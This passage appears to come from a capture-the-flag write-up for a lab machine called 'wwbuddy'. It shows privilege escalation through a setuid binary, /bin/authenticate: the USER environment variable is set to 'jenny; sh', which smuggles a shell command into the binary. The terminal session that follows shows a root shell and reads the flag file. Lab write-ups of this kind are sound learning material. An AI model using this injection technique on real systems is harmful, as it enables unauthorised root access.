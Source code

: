 If you’re in group “developer”, then it will print out “you are already a developer”. But if you are not, it will get variable from env “USER”, then set uid to 0 (uid of root). So if I change the “USER” env to a command, I can execute it at root!

> `export USER=’jenny; sh’`&#x20;

Then exec **/bin/authenticate**:

```bash
jenny@wwbuddy:~$ echo $USER
jenny
jenny@wwbuddy:~$ export USER="jenny; sh"
jenny@wwbuddy:~$ echo $USER
jenny; sh
jenny@wwbuddy:~$ /bin/authenticate
# id
uid=0(root) gid=1002(jenny) groups=1002(jenny)
# cd /root
# ls
root.txt
# cat root.txt
THM{ch4ng3_th3_3nv1r0nm3nt}
#        

```

\
DOne!

